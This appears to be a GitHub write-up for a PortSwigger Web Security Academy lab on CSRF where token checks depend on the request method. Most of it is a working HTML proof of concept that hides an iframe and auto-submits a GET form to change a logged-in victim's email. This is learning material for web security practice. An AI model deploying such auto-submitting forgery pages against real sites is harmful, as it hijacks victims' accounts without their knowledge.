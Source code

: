 # CSRF where token validation depends on request method
- Just follow the steps from [CSRF vulnerability with no defenses
](https://github.com/p-cap/Portswigger-Academy-Mock/blob/main/CSRF/1%20-%20CSRF%20vulnerability%20with%20no%20defenses/Readme.md)
- The only difference is utilizing GET request in the action attribute of the from tag
```html
<html>
    <body>
        <h1>Hello World!</h1>    
        <!--
            iframe => An inline frame is used to embed another document within the current HTML document
            The iframe with STYLE="DISPLAY:NONE" ensures that the victim does not recognize the page being redirected

            Reference:
            HTML Iframes  
            https://www.w3schools.com/html/html_iframe.asp
         -->
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <!--
            Target attribute specifies a name or a keyword that indicates where to display the response that is received after submitting the form
            In this example,  the value of the target displays the response to a iframe
            Reference:
            HTML <form> target Attribute 
            https://www.w3schools.com/TAGs/att_form_target.asp
        -->
      
          
                                                                                                                 <!--
                                                                                                                  GET Method below
                                                                                                                  -->
        <form action="https://acb01f961f46be3ec0d009ff00960036.web-security-academy.net/my-account/change-email" method="GET" target="csrf-iframe" id="csrf-form">

          
          
          <input type="hidden" name="email" value="pcap_panwed_you_one_more_tme@pcap.com">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```
